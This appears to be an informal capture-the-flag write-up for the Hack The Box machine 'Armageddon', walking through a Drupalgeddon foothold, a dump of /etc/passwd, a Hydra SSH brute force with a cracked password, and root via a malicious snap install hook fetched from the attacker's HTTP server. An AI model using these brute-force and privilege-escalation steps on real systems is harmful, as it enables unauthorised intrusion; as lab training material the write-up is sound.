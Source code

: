 So armageddon, immidiately i knew it would involve the drupalgeddon cve so i set to seeing the version of the app being run and quickly got a meterpreter session.

After farting around i found the following

```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```

So a user 

brucetherealadmin , lets bruteforce it 

```bash
hydra -l brucetherealadmin -P /usr/share/wordlists/rockyou.txt ssh://10.129.48.89

```

isssa hit (

22][ssh] host: 10.129.48.89   login: brucetherealadmin   password: booboo

as such got user flag 98815877ac8654614a32178c5193a00d

after a basic sudo -l we see this

```bash
User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *

```

so looks like we can perhaps install something here

This GTFO bin was a great source so…

<aside>
💡

COMMAND="cat /root/root.txt"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
Created package {:path=>"xxxx_1.0_all.snap"}

┌─[eu-dedivip-2]─[10.10.14.211]─[sm1gspl0it@htb-mlehm8tbnq]─[/tmp/tmp.6FhDt9yocF]
└──╼ [★]$ ls

  xxxx_1.0_all.snap

</aside>

After this i curled from my http server to grab the snap payload

```bash

curl http://10.10.14.211/ xxxx_1.0_all.snap -O exploit.snap

```

```bash
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": a4c682deb9fcce578c6b87368edf961e)

```

Got me root flag
